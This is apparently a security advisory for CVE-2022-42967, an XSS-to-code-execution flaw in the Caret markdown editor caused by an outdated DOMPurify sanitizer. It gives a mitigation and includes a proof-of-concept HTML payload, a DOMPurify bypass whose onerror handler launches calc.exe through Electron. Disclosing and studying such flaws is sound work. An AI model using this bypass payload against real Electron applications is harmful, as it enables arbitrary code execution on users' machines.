 ```yaml
---
description: CVE-2022-42967 High severity. XSS in Caret markdown editor leads to remote code execution when viewing crafted Markdown files
title: Caret XSS RCE
date_published: "2023-01-10"
last_updated: "2023-01-10"
xray_id: 
vul_id: CVE-2022-42967
cvss: 7.5
severity: high
discovered_by: Denys Vozniuk
type: vulnerability
---
```

## Summary
XSS in Caret markdown editor leads to remote code execution when viewing crafted Markdown files

## Component

[Caret Editor](https://caret.io/)

## Affected versions

All versions are affected

## Description

This issue is caused due to insufficient validation of the document data, which is sent to the
Electron renderer.
Specifically, in the `getMarkdownHtmlElement` function in the file
`app.asar/extensions/Markdown/Markdown.js` -

`t.firstChild.innerHTML = DOMPurify.sanitize(r)`

An older version of [DOMPurify](https://github.com/cure53/DOMPurify) is used, which has known filtering bypasses (see below)

## PoC

Opening a document with the following contents, **when preview mode is enabled**, leads to the
immediate execution of an arbitrary process (in this case - Calculator) -

```html
<form><math><mtext></form><form><mglyph><style></math><img src
onerror="try{ const {shell} = require('electron');
shell.openExternal('file:C:/Windows/System32/calc.exe') }catch(e){alert(e)}">
```



## Vulnerability Mitigations

Disable Caret's "Preview Mode"

## References

[NVD](https://nvd.nist.gov/vuln/detail/CVE-2022-42967)